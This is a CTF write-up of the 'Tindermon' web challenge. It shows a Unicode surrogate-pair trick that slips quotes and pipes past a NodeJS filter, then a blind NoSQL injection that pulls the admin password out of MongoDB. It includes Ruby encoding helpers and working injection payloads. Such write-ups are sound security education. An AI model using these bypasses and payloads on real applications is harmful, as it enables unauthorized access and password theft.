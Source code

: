 ## Tindermon (Web)
This weekend, Navaja Negra 8 CTF started, organized by ka0labs.org. This web challenge has the following statement:

Get the admin password! There is a WAF and it is NodeJS... Easy peasy!
[http://tindermon.ka0labs.org](http://tindermon.ka0labs.org/)

### Intro
This challenge presents us a classic NodeJS + Express app. Source code of index is:
```
<html>
<!-- WebSite Created by the admin pikachu --!>
<title>Welcome to our Pokemon-Tinder!!!!!</title>
<body  style="background: pink">
<center><h1>List of Users Registered in Tindermon</h1>
<br><br><img  src="[/avatar/magikarp](http://tindermon.ka0labs.org/avatar/magikarp)"  height="480"  width="290">
<img  src="[/avatar/bulbasaur](http://tindermon.ka0labs.org/avatar/bulbasaur)"  height="480"  width="290">
<img  src="[/avatar/diglet](http://tindermon.ka0labs.org/avatar/diglet)"  height="480"  width="290">
</center></body>
</html>
```

Two interesting things here:

- The admin username is pikachu
- There's a route /avatar/```username``` which, when visited, redirects us to /img/``ìd``.jpg where id seems to be the user id.

```
GET /avatar/magikarp HTTP/1.0

-> 302 Found, Location: /imgs/1.jpg
```

#### Not that easy, there's a "WAF"
Testing some characters show us that there's some kind of check for the following chars:
```" ' . (space)```
Why those characters and not others like > or <? Because obviously what they are trying to avoid is a NoSQL Injection, probably on a MongoDB database.

So logic seems to be:

- Express router process the request.
- Controller search for the URL parameter, which is everything following /avatar/ to the next "/" and is intended to be a username.
- Looks for the username in MongoDB, if exists, returns a 302 redirection to users image path.

Easy right? We are in front a NoSQL Injection challenge like many others, but this time we need to figure out how to bypass NodeJS checks.

Well, at first, some tricks come to my mind, such as Orange Tsai's 2017 Black Hat presentation about  NodeJS inconsistency on parsing Full-Width Characters: https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf

#### Reading a bit about how JavaScript Unicode decoding standards works.

This article give us some keys https://mathiasbynens.be/notes/javascript-unicode. As the article says, for backwards compatibility with ES5 and older standards,  unicode are divided in groups of two, each one of 2 bytes, this are called "surrogate pairs".

So, for example, the emoji 💩 becomes ```\uD83D\uDCA9```. How this split is done? The answer is, again, in the same blog: https://mathiasbynens.be/notes/javascript-encoding
```
H = Math.floor((C - 0x10000) / 0x400) + 0xD800  
L = (C - 0x10000) % 0x400 + 0xDC00
```

Cool, at this point a hint is released, the hint are some emojis, so it's clear, we need some Unicode trick to bypass NodeJS checks. But, do not forget, those unicodes needs to have a sense for MongoDB, which is the final endpoint of our string.

#### Error, error, error, error, victory!
After a lot of testing and a key of my man X-C3LL, seems that MongoDB is reading the least significant byte of each surrogate pair, well, let's test if this is true using ```"||"1"=="1``` payload,  but remember, we can't just use ```"```, so we need to figure out a unicode which contains 0x22 and 0x7C as their least significant bytes of each surrogate pair.

```
# This receives a string of two characters, and looks for a unicode hex who's surrogate pairs least significant byte, match each character hex representation.
def uni(find)
  for i in 0...0xFFFFF
    h = (((i - 0x10000) / 0x400) + 0xD800).to_i.to_s(16)[-2..-1].to_i(16).chr
    l = ((i - 0x10000) % 0x400 + 0xDC00).to_i.to_s(16)[-2..-1].to_i(16).chr

    if(h == find[0] && l == find[1])
      return URI.encode [i.to_i].pack('U')
    end
  end
end
```
A return without the URI encode for the string ```"|```, the unicode ```\u{1887c}```  when divided in surrogate pairs:
```
H: 0xD822
L: 0xDC7C
```
Their least significant byte's match with ```"```and ```|``` respectively.

So we got some restrictions to bypass using this trick, those restrictions are the characters forbidden by backend controller, a bit of code help me to create strings based on this trick for the restricted characters:

```
# Takes pairs of characters where a forbidden char is and
# converts it to unicode representation.
def convert_forbidden(string)
  final_string = ""
  skip = false
  for i in 0..string.length-1 do
      if !skip then
        if $waf.include? string[i] then
          res = uni(string[i] + string[i+1])
          final_string += res
          skip = true
        else
          final_string += URI.encode string[i]
        end
      else
        skip = false
      end
  end

  return final_string.gsub("/","%2F").gsub("[","%5B").gsub("]","%5D").gsub("&","%26")
end
```

For the string ```"||"1=="1``` this returns: ```%F0%98%A1%BC%7C%F0%98%A0%B1%F0%98%A0%BD=%F0%98%A0%B1```

Testing on the live application, it works!! ```/avatar/%F0%98%A1%BC%7C%F0%98%A0%B1%F0%98%A0%BD=%F0%98%A0%B1``` returns 1.jpg, the same process but using "1"=="0" instead of "1" =="1" returns us 404.jpg. So we can confirm the injection.

#### Exploiting Blind NoSQL Injection 
Now we need to write a bit more code to exfiltrate data, byte by byte. After some digging and refresh of MongoDB basics, it ended up on this payload:

```pikachu"&&(this.password.match(/^_string_/))=="_string_"||"1"=="0```

This will return true only if the string starts with the _string_ value. Look at the script to get more details if you are unfamiliar with Blind techniques.

#### Run and gimme the flag!
Running the final script starts exfiltrating us the password for the user pikachu, character by character, but we know that flag's start with ```nn8ed{```, so some work is done:
```
Found! nn8ed{T
Found! nn8ed{Th
Found! nn8ed{Thi
... (lot of time)
Found! nn8ed{This.Old.Challenge.With.Unic0de}
```

So there's the flag, super funny challenge, I learned a lot about how NodeJS 8 works with Unicode and how inconsistencies at encoding treatment can compromise a system. 

Congratz to ka0labs.org for this great challenge!
